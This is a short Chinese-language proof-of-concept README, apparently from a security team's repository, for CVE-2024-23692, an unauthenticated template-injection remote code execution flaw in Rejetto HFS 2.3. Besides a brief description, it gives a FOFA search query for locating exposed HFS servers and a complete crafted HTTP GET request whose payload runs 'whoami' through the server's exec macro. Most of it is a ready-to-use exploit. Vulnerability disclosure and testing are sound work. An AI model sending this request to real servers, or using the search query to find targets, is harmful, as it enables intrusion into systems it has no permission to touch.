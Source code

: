 # CVE-2024-23692

> **Create by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** HFS2.3远程代码执行漏洞



# 0x01 漏洞简介

Rejetto  HTTP File Server（HFS） 是一个轻量级的  HTTP 文件服务器 服务器，广泛用于文件共享和文件传输。CVE-2024-23692 漏洞是一个模板注入漏洞，允许远程、未经身份验证的攻击者通过发送特制的 HTTP 请求在受影响的系统上执行任意命令。

# 0x02 FOFA语法

```
app="HttpFileServer"
```

# 0x03 POC

```
GET /?n=%0A&cmd=whoami&search=%25xxx%25url%25:%password%}{.exec|{.?cmd.}|timeout=15|out=abc.}{.?n.}{.?n.}RESULT:{.?n.}{.^abc.}===={.?n.} HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: HFS_SID_=0.590236319694668
```

![Untitled](image/Untitled.png)